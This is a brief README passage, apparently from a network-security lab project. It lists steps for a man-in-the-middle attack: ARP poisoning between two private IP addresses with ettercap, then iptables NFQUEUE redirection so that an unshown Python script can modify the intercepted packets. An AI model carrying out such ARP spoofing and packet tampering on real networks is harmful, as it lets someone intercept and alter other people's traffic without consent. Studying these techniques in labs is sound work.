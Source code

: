 
1. Run the python program
2. Start ARP poisoning with:
   ```bash
   sudo ettercap -T -i eth0 -M arp /192.168.39.110// /192.168.37.163//
   ```
   exit with `q`
3. Put packet on queue for being modified by the Python script with: 
   ```bash
   sudo iptables -I OUTPUT -d 127.0.0.1 -j NFQUEUE --queue-num 1
   ```
   Return to normal mode with: 
   ```bash
   sudo iptables -F
   ```